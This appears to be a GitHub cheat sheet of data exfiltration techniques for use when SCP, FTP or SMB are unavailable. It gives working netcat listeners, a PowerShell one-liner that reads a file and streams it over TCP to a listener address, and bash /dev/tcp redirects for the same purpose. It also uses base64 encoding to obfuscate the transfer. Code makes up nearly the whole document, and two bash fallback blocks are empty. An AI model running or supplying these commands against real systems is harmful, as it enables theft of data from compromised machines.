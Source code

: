 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***
***

### Windows To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```
###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***
***

### Linux To Linux

#### Send file from remote client to host machine:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
base64 -w0 file.ext | nc -q 0 %ListenerAddress% %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```
base64 -w0 file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

***

#### Retrieve file from host to client:

##### If you want to send the raw contents:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup a Netcat listener on Linux host:

```
base64 -w0 file.ext | nc -q 0 -lp %ListeningPort%
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with Netcat:

```
nc %ListenerAddress% %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If Netcat is unavailable, on the Linux client connect back with bash:

```

```
